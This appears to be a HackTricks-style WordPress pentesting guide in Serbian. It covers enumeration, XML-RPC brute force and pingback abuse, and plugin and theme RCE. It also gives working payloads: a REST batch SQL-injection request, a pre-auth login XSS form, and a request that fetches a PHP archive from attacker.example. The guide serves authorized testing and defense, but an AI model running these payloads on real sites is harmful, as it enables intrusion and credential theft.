

# WordPress

{{#include ../../banners/hacktricks-training.md}}

## Osnovne informacije

- **Otpremљene** datoteke se nalaze na: `http://10.10.10.10/wp-content/uploads/2018/08/a.txt`
- **Datoteke tema čuvaju se u direktorijumu `/wp-content/themes/`.** Ako administrator izmeni PHP šablon da bi omogućio izvršavanje koda, odgovarajućoj putanji teme može se direktno pristupiti. Na primer, šablonu `404.php` teme Twenty Twelve obično se može pristupiti na adresi [**`/wp-content/themes/twentytwelve/404.php`**](http://10.11.1.234/wp-content/themes/twentytwelve/404.php).

  - Na instalaciji koja sadrži i aktivira temu pod nazivom `default`, treba testirati i putanju **`/wp-content/themes/default/404.php`**.

- **`wp-config.php`** sadrži akreditive WordPress baze podataka. Konfigurisani korisnik baze može imati privilegije, ali to ne mora biti nalog baze podataka `root`.<sup>[[21]](#references)</sup>
- Podrazumevane putanje za prijavu koje treba proveriti: _**/wp-login.php, /wp-login/, /wp-admin/, /wp-admin.php, /login/**_

### **Glavne WordPress datoteke**

- `index.php`
- `license.txt` sadrži korisne informacije, kao što je verzija instaliranog WordPress-a.
- `wp-activate.php` koristi se za aktivaciju putem e-pošte prilikom podešavanja novog WordPress sajta.
- Fascikle za prijavu (mogu biti preimenovane da bi se sakrile):
  - `/wp-admin/login.php`
  - `/wp-admin/wp-login.php`
  - `/login.php`
  - `/wp-login.php`
- `xmlrpc.php` izlaže zastareli XML-RPC interfejs preko HTTP-a. Savremene integracije uglavnom koriste WordPress REST API, ali XML-RPC je i dalje prisutan i može ostati omogućen.<sup>[[22]](#references)</sup>
- Fascikla `wp-content` glavni je direktorijum u kome se čuvaju dodaci i teme.
- `wp-content/uploads/` je podrazumevani direktorijum za otpremljene medije, iako konfiguracija i dodaci mogu promeniti njegovu organizaciju.
- `wp-includes/` sadrži osnovne WordPress biblioteke i resurse; ne treba ga tretirati kao direktorijum korisničkog sadržaja.
- Od WordPress-a 5.5, jezgro sistema izlaže indeks XML mape sajta na adresi `wp-sitemap.xml` za javne objave i drugi javno dostupni sadržaj.<sup>[[23]](#references)</sup>

**Post exploitation**

- Datoteka `wp-config.php` sadrži informacije koje WordPress-u trebaju za povezivanje sa bazom podataka, kao što su naziv baze podataka, host, korisničko ime i lozinka, kao i ključevi za autentifikaciju, salt vrednosti i prefiks tabela baze podataka. Može uključivati i podešavanja za otklanjanje grešaka, pa je otkrivanje ove datoteke naročito osetljivo.<sup>[[21]](#references)</sup>

### Korisničke uloge

- **Administrator**
- **Editor**: Može da objavljuje i upravlja svojim objavama i objavama drugih korisnika.
- **Author**: Može da objavljuje svoje objave i upravlja njima.
- **Contributor**: Može da piše i upravlja svojim objavama, ali ne može da ih objavljuje.
- **Subscriber**: Može da čita sadržaj i upravlja sopstvenim profilom.

Ovo su podrazumevane uloge; dodaci i administratori mogu menjati mogućnosti, pa pri testiranju autorizacije treba proveravati mogućnosti, umesto pretpostavljati da naziv uloge ima nepromenljivo značenje.<sup>[[24]](#references)</sup>

## **Pasivno prikupljanje informacija**

### **Pronalaženje WordPress verzije**

Proverite da li možete da pronađete datoteke `/license.txt` ili `/readme.html`

U **izvornom kodu** stranice (primer sa [https://wordpress.org/support/article/pages/](https://wordpress.org/support/article/pages/)):

- grep

```bash
curl https://victim.com/ | grep 'content="WordPress'
```

- `meta name`

.png>)

- CSS link datoteke

.png>)

- JavaScript datoteke

.png>)

### Pronalaženje dodataka

```bash
curl -H 'Cache-Control: no-cache, no-store' -L -ik -s https://wordpress.org/support/article/pages/ | grep -E 'wp-content/plugins/' | sed -E 's,href=|src=,THIIIIS,g' | awk -F "THIIIIS" '{print $2}' | cut -d "'" -f2
```

### Preuzimanje tema

```bash
curl -s -X GET https://wordpress.org/support/article/pages/ | grep -E 'wp-content/themes' | sed -E 's,href=|src=,THIIIIS,g' | awk -F "THIIIIS" '{print $2}' | cut -d "'" -f2
```

### Izdvajanje verzija uopšteno

```bash
curl -H 'Cache-Control: no-cache, no-store' -L -ik -s https://wordpress.org/support/article/pages/ | grep http | grep -E '\?ver=' | sed -E 's,href=|src=,THIIIIS,g' | awk -F "THIIIIS" '{print $2}' | cut -d "'" -f2

```

## Aktivna enumeracija

### Dodaci i teme

Pasivna provera neće nužno otkriti svaki instalirani dodatak ili temu. Da biste proširili obuhvat, aktivno enumerišite potencijalne nazive koristeći odgovarajuće wordliste i alate koji poštuju ograničenja učestalosti zahteva tokom procene.

### Izloženost rezervnih kopija i arhive dodataka za pravljenje rezervnih kopija

Dodatak za pravljenje rezervnih kopija ili migraciju može ostaviti arhive u direktorijumu dostupnom preko veba. Neki dodaci omogućavaju pristup arhivama putem direktnih URL-ova: ako listing direktorijuma ili javna veza otkriva puno ime, zaštićena ruta za preuzimanje dodatka ne štiti datoteku. Proverite sadržaj odgovora umesto da sam status `200` smatrate dokazom izloženosti.<sup>[[45]](#references)</sup> WPScan 4.0 je dodao `bf` za enumeraciju direktorijuma sa rezervnim kopijama; njegove opcije `cb` i `dbe` proveravaju rezervne kopije konfiguracije i izvoze baze podataka.<sup>[[40]](#references)[[41]](#references)</sup> Za opštu proveru naziva datoteka rezervnih kopija pogledajte [metodologiju za rezervne kopije web datoteka](index.html#what-to-check-on-each-file-found).

```bash
wpscan --url https://target.example -e cb,dbe,bf
curl -i https://target.example/wp-config.php.bak
```

Za potvrđeni folder sa rezervnim kopijama pregledajte njegov sadržaj ili linkove koje je generisao plugin i zatražite samo poznatu arhivu koja je u obuhvatu testiranja.<sup>[[40]](#references)[[45]](#references)</sup>

### Korisnici

- **ID Brute:** Dobijate validne korisnike sa WordPress sajta tako što primenjujete Brute Forcing na ID-jeve korisnika:

```bash
curl -s -I -X GET http://blog.example.com/?author=1
```

Ako je odgovor **200** ili **30X**, ID je **validan**. Ako je odgovor **400**, ID je **nevažeći**.

- **wp-json:** Takođe možete pokušati da dobijete informacije o korisnicima slanjem upita:

```bash
curl http://blog.example.com/wp-json/wp/v2/users
```

Još jedna `/wp-json/` krajnja tačka koja može da otkrije neke informacije o korisnicima je:

```bash
curl http://blog.example.com/wp-json/oembed/1.0/embed?url=POST-URL
```

Imajte na umu da ova krajnja tačka prikazuje samo korisnike koji su objavili neku objavu. **Biće prikazane samo informacije o korisnicima za koje je ova funkcija omogućena**.

Takođe imajte na umu da **/wp-json/wp/v2/pages** može da otkrije IP adrese.

- **Enumeracija korisničkih imena pri prijavi**: Prilikom prijave na **`/wp-login.php`**, **poruka** se razlikuje u zavisnosti od toga da li navedeno **korisničko ime postoji**.

### XML-RPC

Ako je `xmlrpc.php` omogućen, njegove metode mogu da izlože površine za napade pogađanjem lozinki i zloupotrebom pingback-a. Na primer, [wpxploit](https://github.com/relarizky/wpxploit) automatizuje nekoliko provera XML-RPC-a. Postavite stroga ograničenja broja zahteva i testirajte samo uz odobrenje.

Da biste proverili da li je aktivan, pošaljite zahtev na **`/xmlrpc.php`** sa ovim pozivom metode:

**Provera**

```html
<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>
```


**Brute force kredencijala**

**`wp.getUserBlogs`**, **`wp.getCategories`** ili **`metaWeblog.getUsersBlogs`** su neke od metoda koje se mogu koristiti za brute force kredencijala. Ako pronađete neku od njih, možete poslati nešto poput:

```html
<methodCall>
<methodName>wp.getUsersBlogs</methodName>
<params>
<param><value>admin</value></param>
<param><value>pass</value></param>
</params>
</methodCall>
```

Poruka _"Incorrect username or password"_ unutar odgovora sa statusnim kodom 200 treba da se pojavi ako akreditivi nisu ispravni.

 (2) (2) (2) (2) (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (4) (1).png>)

.png>)

Sa važećim akreditivima i dovoljnim privilegijama, `wp.uploadFile` može da otpremi medije. Uspešan odgovor sadrži rezultujuću putanju ([primer zahteva](https://gist.github.com/georgestephanis/5681982)).

```html
<?xml version='1.0' encoding='utf-8'?>
<methodCall>
	<methodName>wp.uploadFile</methodName>
	<params>
		<param><value><string>1</string></value></param>
		<param><value><string>username</string></value></param>
		<param><value><string>password</string></value></param>
		<param>
			<value>
				<struct>
					<member>
						<name>name</name>
						<value><string>filename.jpg</string></value>
					</member>
					<member>
						<name>type</name>
						<value><string>mime/type</string></value>
					</member>
					<member>
						<name>bits</name>
						<value><base64><![CDATA[---base64-encoded-data---]]></base64></value>
					</member>
				</struct>
			</value>
		</param>
	</params>
</methodCall>
```

Takođe postoji **brži način** za brute-force kredencijala pomoću **`system.multicall`**, jer možete isprobati više kredencijala u istom zahtevu:

<figure><figcaption></figcaption></figure>

**Zaobilaženje 2FA**

Ova metoda je namenjena programima, a ne ljudima, i zastarela je, tako da ne podržava 2FA. Zato, ako imate važeće kredencijale, ali je glavni ulaz zaštićen 2FA-om, **možda možete zloupotrebiti xmlrpc.php da biste se prijavili tim kredencijalima i zaobišli 2FA**. Imajte na umu da nećete moći da izvršite sve radnje koje možete da obavite preko konzole, ali možda ćete ipak moći da postignete RCE, kao što Ippsec objašnjava na [https://www.youtube.com/watch?v=p8mIdm93mfw\&t=1130s](https://www.youtube.com/watch?v=p8mIdm93mfw&t=1130s)

**DDoS ili skeniranje portova**

Ako je dostupna metoda **`pingback.ping`**, ona može da natera WordPress server da preuzme HTTP(S) URL koji je izabrao napadač. Core koristi proveru URL-ova koja treba da smanji SSRF, pa se dostupne šeme, odredišta, preusmeravanja i signali odgovora razlikuju u zavisnosti od verzije i konfiguracije. Istorijski gledano, ova funkcija je zloupotrebljavana za reflektovani saobraćaj i ograničeno ispitivanje interne mreže.<sup>[[25]](#references)</sup>

```html
<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://<YOUR SERVER >:<port></string></value>
</param><param><value><string>http://<SOME VALID BLOG FROM THE SITE ></string>
</value></param></params>
</methodCall>
```



Nemojte smatrati jedan `faultCode` konačnim dokazom da je port otvoren. Uporedite kontrolisana odredišta sa otvorenim i zatvorenim portovima i uzmite u obzir validaciju URL-a, greške aplikacije, vremenska ograničenja i ponašanje posrednika.

Pogledajte upotrebu metode **`system.multicall`** u prethodnom odeljku da biste saznali kako da zloupotrebite ovu metodu za izazivanje DDoS napada.

**DDoS**

```html
<methodCall>
    <methodName>pingback.ping</methodName>
    <params>
        <param><value><string>http://target/</string></value></param>
        <param><value><string>http://yoursite.com/and_some_valid_blog_post_url</string></value></param>
    </params>
</methodCall>
```

.png>)

### Testiranje opterećenja pomoću `wp-cron.php`

Ova datoteka se obično nalazi u korenu WordPress-a kao **`/wp-cron.php`**. WordPress proverava dospele zakazane događaje tokom zahteva za stranicu i može da pokrene neblokirajući zahtev ka ovoj krajnjoj tački. Obavljeni posao zavisi od zakazanih hook-ova; ponovljeni zahtevi sami po sebi ne predstavljaju značajno opterećenje baze podataka, ali skupi poslovi ili poslovi sa lošim zaključavanjem mogu da izazovu nepotrebno opterećenje. Ovo testirajte samo u kontrolisanom okruženju, jer testiranje opterećenja može da utiče na dostupnost.<sup>[[21]](#references)</sup>

Za sajtove sa velikim prometom ili osetljive na kašnjenje, administratori mogu da postave `DISABLE_WP_CRON` i da pokreću dospele događaje putem sistemskog raspoređivača u kontrolisanim intervalima.<sup>[[21]](#references)</sup>

### /wp-json/oembed/1.0/proxy - SSRF

Na verzijama/konfiguracijama u kojima je oEmbed proxy ruta dostupna testiranom korisniku, probajte `https://wordpress-site.example/wp-json/oembed/1.0/proxy?url=https://<collaborator-host>/`. U savremenim verzijama jezgra, preuzimanje se obavlja preko `wp_safe_remote_get()`, koji proverava URL i preusmeravanja kako bi smanjio rizik od SSRF-a; na dostupnost utiču i autentifikacija, nonce, allowlist i mrežne kontrole.<sup>[[25]](#references)</sup>

Ovakav odgovor se dobija kada ne uspe:

.png>)

## SSRF


[QuickPress](https://github.com/t0gu/quickpress) proverava da li postoje metoda `pingback.ping` i putanja `/wp-json/oembed/1.0/proxy`, a zatim testira odgovarajuće ponašanje zahteva sa strane servera.<sup>[[26]](#references)</sup>

## Automatski alati

```bash
cmsmap -s http://www.domain.com -t 2 -a "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0"
wpscan --rua -e ap,at,tt,cb,dbe,u,m --url http://www.domain.com [--plugins-detection aggressive] --api-token <API_TOKEN> --passwords /usr/share/wordlists/external/SecLists/Passwords/probable-v2-top1575.txt # Enumerate and test authorized accounts; API quotas vary
# To test the admin account in an authorized assessment, add: -U admin
```

Nuclei takođe ima WordPress workflow koji prvo identifikuje karakteristike sajta, a zatim pokreće templejte označene sa `wordpress`. Pregledajte izabrane templejte i ručno proverite nalaze; poklapanje sa templejtom može samo da potvrdi verziju ili izloženu putanju.<sup>[[46]](#references)</sup>

```bash
nuclei -u https://target.example -w workflows/wordpress-workflow.yaml
```

## Dobijanje pristupa prepisivanjem jednog bita

Ovo je zanimljivost specifična za CTF, a ne opšti WordPress napad. U [One-Bit-Man](https://github.com/orangetw/My-CTF-Web-Challenges#one-bit-man), napadač je mogao da preokrene jedan bit u bilo kojoj WordPress datoteci. Promena odgovarajućeg bajta u `/var/www/html/wp-includes/user.php` izmenila je uslov za proveru lozinke. Tačan pomeraj (`5389` u tom izazovu) zavisi od verzije build-a.

```php
    if ( ! wp_check_password( $password, $user->user_pass, $user->ID ) ) {
            return new WP_Error(
```

## **Panel RCE**

**Izmena PHP datoteke korišćene u temi (potrebni su administratorski podaci za prijavu)**

Izgled → Uređivač tema → Šablon 404 (desno)

Promenite sadržaj i ubacite PHP shell:

.png>)

Pošaljite zahtev za izmenjeni šablon preko rute koja ga renderuje ili mu pristupite direktno ako web server dozvoljava direktno izvršavanje PHP-a u direktorijumima tema. U ovom primeru putanja je [http://10.11.1.234/wp-content/themes/twentytwelve/404.php](http://10.11.1.234/wp-content/themes/twentytwelve/404.php).

### MSF

Možete koristiti:

```bash
use exploit/unix/webapp/wp_admin_shell_upload
```

da biste dobili sesiju.

## Plugin RCE

### PHP plugin

Možda je moguće otpremiti .php fajlove kao plugin.\
Napravite svoj PHP backdoor, na primer:

.png>)

Zatim dodajte novi plugin:

.png>)

Otpremite plugin i kliknite na Install Now:

.png>)

Kliknite na **Proceed**:

.png>)

Verovatno se naizgled neće desiti ništa, ali ako odete na Media, videćete da je vaša shell skripta otpremljena:

.png>)

Pristupite joj i videćete URL za izvršavanje reverse shell-a:

.png>)

### Izmena aktivnog plugina uz odbijen direktan pristup

Uz administratorski pristup i omogućen uređivač fajlova, izmena PHP-a aktivnog plugina može omogućiti izvršavanje koda čak i kada Apache odbija direktne HTTP zahteve ka fajlu plugina. U prikazanoj instalaciji Akismet-a, `.htaccess` u direktorijumu plugina vraćao je `403` za direktan pristup fajlu `akismet.php`. Međutim, zahtev ka WordPress ruti i dalje je učitavao aktivni plugin tokom bootstrap-a, pa se izmenjeni PHP izvršavao u kontekstu web servera. Testirajte rutu koja učitava WordPress, umesto da direktni `403` za fajl smatrate neuspehom; statički fajlovi koji zaobilaze WordPress bootstrap neće ga pokrenuti.<sup>[[47]](#references)</sup>

### Otpremanje i aktiviranje zlonamernog plugina

Ova metoda obuhvata instalaciju zlonamernog plugina za koji se zna da je ranjiv i koji se može iskoristiti za dobijanje web shell-a. Postupak se sprovodi kroz WordPress kontrolnu tablu na sledeći način:

1. **Nabavka plugina**: Plugin se preuzima sa izvora kao što je Exploit DB, na primer [**ovde**](https://www.exploit-db.com/exploits/36374).
2. **Instalacija plugina**:
   - Otvorite WordPress kontrolnu tablu, pa idite na `Dashboard > Plugins > Upload Plugin`.
   - Otpremite ZIP fajl preuzetog plugina.
3. **Aktiviranje plugina**: Kada se plugin uspešno instalira, potrebno ga je aktivirati kroz kontrolnu tablu.
4. **Iskorišćavanje**:
   - Kada se plugin „reflex-gallery“ instalira i aktivira, može se iskoristiti jer je poznato da je ranjiv.
   - Metasploit framework sadrži exploit za ovu ranjivost. Učitavanjem odgovarajućeg modula i izvršavanjem određenih komandi može se uspostaviti meterpreter sesija, čime se dobija neovlašćen pristup sajtu.
   - Treba napomenuti da je ovo samo jedan od mnogih načina za iskorišćavanje WordPress sajta.

Sadržaj uključuje vizuelne prikaze koraka za instalaciju i aktiviranje plugina kroz WordPress kontrolnu tablu. Međutim, važno je napomenuti da je iskorišćavanje ranjivosti na ovaj način nezakonito i neetično bez odgovarajućeg ovlašćenja. Ove informacije treba koristiti odgovorno i samo u legalnom kontekstu, kao što je penetration testing uz izričitu dozvolu.

**Detaljnije korake potražite ovde:** [**https://www.hackingarticles.in/wordpress-reverse-shell/**](https://www.hackingarticles.in/wordpress-reverse-shell/)

## Zabuna u REST batch ruti i SQL injection u `WP_Query`

Na WordPress verzijama 6.9.0–6.9.4 i 7.0.0–7.0.1, anonimna krajnja tačka `POST /wp-json/batch/v1` (dostupna i preko `/?rest_route=/batch/v1`) može se iskoristiti za postizanje SQL injection-a i, na prikazanoj podrazumevanoj konfiguraciji, kreiranje administratora i izvršavanje koda preko plugina.<sup>[[35]](#references)[[37]](#references)</sup> SQL sink u `WP_Query` utiče i na verzije 6.8.0–6.8.5, ali preautentifikaciona batch ruta korišćena ovde zahteva WordPress 6.9 ili noviji; verzije 6.8 ne treba smatrati izloženim ovom celom lancu.<sup>[[36]](#references)[[37]](#references)[[38]](#references)</sup>

Batch dispečer čuva pronađene handlere i rezultate validacije u paralelnim nizovima. Neispravan put podzahteva dodaje grešku validacije, ali ne i handler, čime se pomeraju njihovi indeksi. Zbog toga sledeći podzahtev može biti validiran prema šemi jedne rute, a izvršen callback-ом druge rute.<sup>[[35]](#references)</sup> Ugnježđivanje batch poziva takođe zaobilazi ograničenje koje zabranjuje `GET` podzahteve: spoljašnje nepoklapanje prosleđuje batch handler-u telo validirano kao zahtev za objave; unutrašnje nepoklapanje validira `author_exclude` prema ruti za pojedinačnu objavu, ali izvršava rutu za kolekciju objava.<sup>[[35]](#references)</sup> Tamo se `author_exclude` u `WP_Query` pretvara u `author__not_in`. Elementi niza se konvertuju pomoću `absint()`, ali skalar dospeva neizmenjen u SQL fragment `NOT IN (...)`. Ključni propust je nepoklapanje rute i šeme, koje omogućava da skalar dospe do ovog sink-a; [SQL injection zasnovan na UNION-u](../../pentesting-web/sql-injection/#exploiting-union-based) predstavlja kasniju metodu izvlačenja podataka.<sup>[[35]](#references)</sup>

Sledeći ugnježđeni zahtev prikazuje SQL sink pomoću logičkog uslova na laboratorijskoj instanci. Neispravni putanje `http://:` su namerne; payload se nalazi u JSON POST telu, a ne u URL-u.<sup>[[35]](#references)</sup>

<details>
<summary>Ugnježđeni batch zahtev za potvrdu SQL injection-a</summary>

```http
POST /wp-json/batch/v1 HTTP/1.1
Host: target.example
Content-Type: application/json

{
  "requests": [
    {"method":"POST","path":"http://:"},
    {"method":"POST","path":"/wp/v2/posts","body":{"requests":[
      {"method":"GET","path":"http://:"},
      {"method":"DELETE","path":"/wp/v2/posts/1","body":{"author_exclude":"0) OR 1=1 -- "}},
      {"method":"GET","path":"/wp/v2/posts"}
    ]}},
    {"method":"POST","path":"/batch/v1"}
  ]
}
```
</details>

Uz upit koji vraća ceo red, `UNION` može da vrati falsifikovane `wp_posts` redove, a ne samo da izvuče vrednosti. Demonstrirana eskalacija ubacuje takve redove u keš postova lokalni za zahtev, renderuje lokalne embedove da bi kreirala stvarne `oembed_cache` redove, a zatim ponovo tumači keširane redove kao `customize_changeset`. Popravka ciklusa roditelja upisuje sadržaj changeseta koji kontroliše napadač; njegov `user_id` privremeno preuzima identitet administratora. Falsifikovana promena stanja posta poziva `parse_request` pod tim identitetom, čime se omogućava kreiranje administratora putem REST API-ja.<sup>[[35]](#references)</sup> Novi nalog zatim može da otpremi PHP plugin, kao u slučaju [plugin RCE](#plugin-rce). Trajno eksterno keširanje objekata može da promeni putanju upita koji vraća ceo red i spreči ovu konkretnu `UNION`/RCE putanju; ono ne ispravlja osnovne greške.<sup>[[35]](#references)[[36]](#references)</sup>

Javni PoC razdvaja nedestruktivni `check` za zabunu u rutiranju od aktivne potvrde SQLi pomoću `--confirm-sqli` i operacije `read --preset users`. Nagoveštaj verzije nije dokaz da je ranjivost dostupna, a neuspešna potvrda može biti i posledica WAF-a.<sup>[[39]](#references)</sup> Ako je SQLi potvrđen, moguće je otkriti heševe lozinki i bez kasnijeg koraka kreiranja administratora. Za povezane posledice po autentifikaciju pogledajte [account takeover](../../pentesting-web/account-takeover.md).<sup>[[36]](#references)[[39]](#references)</sup>

```bash
./wp2shell.py check https://target.example
./wp2shell.py check https://target.example --confirm-sqli
./wp2shell.py read https://target.example --preset users
```

## Od XSS-a do RCE-a

- [**WPXStrike**](https://github.com/nowak0x01/WPXStrike) je skripta osmišljena za eskalaciju Cross-Site Scripting-a (XSS) do Remote Code Execution-a (RCE) ili drugih kritičnih posledica u WordPress-u. Njene dokumentovane tehnike ciljaju WordPress 4.x, 5.x i 6.x, mada primenljivost zavisi od tačne verzije, konfiguracije i trenutnog ponašanja pregledača:<sup>[[17]](#references)</sup>
  - _**Eskalacija privilegija:**_ Kreira korisnika u WordPress-u.
  - _**(RCE) Otpremanje prilagođenog dodatka (backdoor):**_ Otpremite svoj prilagođeni dodatak (backdoor) u WordPress.
  - _**(RCE) Izmena ugrađenog dodatka:**_ Menja ugrađeni dodatak u WordPress-u.
  - _**(RCE) Izmena ugrađene teme:**_ Menja ugrađenu temu u WordPress-u.
  - _**(Prilagođeno) Prilagođeni exploiti:**_ Prilagođeni exploiti za WordPress dodatke/teme trećih strana.

### Razlika u parsiranju jezgra → DOM clobbering → RCE (XSS2Shell)

WordPress jezgro pre bezbednosnih backport zakrpa iz avgusta 2026. (ispravljeno u verziji 7.0.3) sadržalo je XSS na ekranu za prijavu pre autentifikacije, koji se mogao povezati sa izvršavanjem PHP-a kada bi administrator na single-site instalaciji koji je prijavljen posetio stranicu pod kontrolom napadača. Zanimljiv je način na koji se kombinuju pojedinačni, ograničeni primitivni elementi, a ne sam CVE.<sup>[[19]](#references)[[20]](#references)</sup>

Osnovni uzrok bila je **razlika u parsiranju**. Nevažeće korisničko ime prolazilo je kroz `sanitize_user()`/`wp_strip_all_tags()`; PHP `strip_tags()` tretirao je `< area ...>` (razmak posle `<`) kao tekst, ali ga je naredni prolaz kroz `wp_kses_post()` protumačio kao dozvoljeni element `<area>`. Tako je vrednost za koju se očekivalo da bude običan tekst postala DOM pod kontrolom napadača na `wp-login.php`.<sup>[[19]](#references)</sup>

Lanac na strani pregledača ilustruje korisne mete za proveru i kombinuje [DOM clobbering](../../pentesting-web/xss-cross-site-scripting/dom-clobbering.md) sa [SOME](../../pentesting-web/xss-cross-site-scripting/some-same-origin-method-execution.md):<sup>[[19]](#references)</sup>

1. Ubacite elemente čiji se ID-jevi/klase poklapaju sa selektorima koje koristi globalno učitani `user-profile.js`. Njegov automatski klik na generator lozinki poziva obrađivač šeme boja; dva nedostajuća polja oba daju vrednost `undefined`, pa provera jednakosti prolazi.
2. Preuzmite kontrolu nad globalnom promenljivom `ajaxurl`, koja inače nije definisana, pomoću `<area id=ajaxurl href=...>`. Kada jQuery konvertuje element u string, njegov `href` postaje AJAX odredište.
3. Usmerite taj zahtev na REST indeks istog porekla, koristeći `_method=GET` i `_jsonp=<callback>`. jQuery izvršava JavaScript odgovor; `_envelope=1` može da zadrži status spoljnog odgovora na 200 kada je unutrašnji REST odgovor greška.
4. U prikazanom RCE lancu, podređeni prozor izvršava ograničeni callback, na primer `window.opener.approve.click`, nad obrascem za odobravanje Application Password-a u svom opener-u istog porekla. Odobreni akreditiv se prosleđuje napadačevom `success_url`.
5. Koristite administratorov Application Password za autentifikovane REST pozive, objavite JavaScript pomoću `unfiltered_html`, usmerite administratora na njega, a zatim upotrebite kontekst administratorovog cookie-ja da pribavite nonce za otpremanje dodatka i otpremite ZIP koji sadrži direktno dostupnu PHP datoteku. Ova poslednja faza i dalje zavisi od toga da žrtva ima odgovarajuće administratorske mogućnosti na single-site instalaciji.

U nastavku je prikazan minimalni oblik za ovlašćeno testiranje pre-auth XSS primitiva. Razmak neposredno posle svakog `<` je značajan.<sup>[[19]](#references)</sup>

```html
<form id="poc" method="post" action="https://target.example/wp-login.php">
  <input type="hidden" name="log" value='< area id=ajaxurl href="/?rest_route=/&amp;_method=GET&amp;_jsonp=alert&amp;_envelope=1">< div id=color-picker class=reset-pass-submit>< button class="wp-generate-pw color-option">X'>
  <input type="hidden" name="pwd" value="x">
</form>
<script>document.getElementById('poc').submit()</script>
```

Korisni indikatori za traženje, izvedeni iz ovog lanca, jesu sumnjive vrednosti `log` koje sadrže `<` i razmak pre `area`, `div` ili `button`; REST zahtevi koji kombinuju `_jsonp`, `_method` i `_envelope`; neočekivane posete stranici `authorize-application.php`; nove Application Passwords; kreiranje REST stranice praćeno otpremanjem ZIP arhive plugina; i direktni zahtevi ka novoj PHP datoteci plugina.<sup>[[19]](#references)</sup>

WordPress 7.0.3 je escape-ovao vrednost neuspešne prijave i najavio backport-ove za grane koje su i dalje ispunjavale uslove za bezbednosno održavanje. Zato same oznake verzija nisu dovoljne: proverite da li je instalirana odgovarajuća bezbednosna verzija ili backport.<sup>[[19]](#references)[[20]](#references)</sup>

### Theme selector injection → inactive-theme installer RCE (Click2Shell)

Korisna varijanta koju treba tražiti jeste **cross-parser selector injection**: jednu URL vrednost server/API kanonizuje, ali se originalna vrednost kasnije ubacuje u CSS/jQuery selektor. U pogođenim tokovima instalacije tema u WordPress Core-u, Themes API je svodio posebno oblikovanu vrednost na ispravan slug iz kataloga, dok je `wp-admin/js/theme.js` zadržavao interpunkciju i izvršavao `$(selector).trigger('click')`. Tako je pregledač postao confused deputy i kliknuo stvarnu kontrolu **Install** koristeći administratorsku sesiju, privilegiju i nonce; ovo je prinudna akcija na strani klijenta, nalik CSRF-u, a ne proizvoljno izvršavanje JavaScript-a.<sup>[[32]](#references)</sup>

Za ovlašćeni test u izolovanom okruženju, počnite sa zvaničnom temom koja nije instalirana. Navodnik zatvara selektor atributa `data-slug`, child combinators se spuštaju do kartice vraćene teme, a CSS komentar uklanja sufiks koji dodaje aplikacija:<sup>[[32]](#references)</sup>

```http
GET /wp-admin/theme-install.php?theme=twentytwenty%22%5D%3E%2A%3E%2A%3E%2A%2F%2A HTTP/1.1
Host: wordpress.example
```

Konceptualno, pregledač evaluira selektor kao što je `div[data-slug="twentytwenty"]>*>*>*/*"]`, a zatim pokreće klik. Neizmenjena ruta predstavlja korisnu negativnu kontrolu: trebalo bi da otvori pregled bez instaliranja paketa. Ovaj primitiv je ograničen na trenutno dostupnu temu iz WordPress.org kataloga; sam po sebi **ne** otprema arhivu teme koju je dostavio napadač.<sup>[[32]](#references)</sup>

Važno zapažanje u drugoj fazi jeste da **instalirano ne znači neaktivno**. Zahtev Customizer-a može da učita `functions.php` neaktivne teme, što joj omogućava da registruje hooks kao što su autentifikovane `wp_ajax_...` akcije, čak i dok je aktivna neka druga tema:<sup>[[32]](#references)</sup>

```http
POST /wp-admin/admin-ajax.php?wp_customize=on&customize_theme=<theme-slug> HTTP/1.1
Host: wordpress.example
Cookie: wordpress_logged_in_...=...
Content-Type: application/x-www-form-urlencoded

action=<ajax-action>&plugin_details[plugin_url]=https://attacker.example/test.zip&plugin_details[plugin_main_file]=proof.php
```

Proverite preaktivacioni kod za AJAX callbacks koji prihvataju URL udaljene arhive, identifikatore odredišta/dodatka ili naziv entry-point datoteke. Ako takvom callbacku nedostaju i action nonce i provera capability-ja, forma sa drugog origin-a može da iskoristi autentifikovani pregledač žrtve da preuzme i raspakuje PHP u `wp-content/plugins/` i učita izabrani entry point. Demonstrirani lanac koristio je Mobile Repair Zone 2.5.4, ali ova tehnika se može primeniti tako što se u bilo kojoj temi koja može da se instalira potraže osetljivi hook-ovi dostupni tokom pregleda, uvoza, podešavanja ili inicijalizacije kompatibilnosti.<sup>[[32]](#references)</sup>

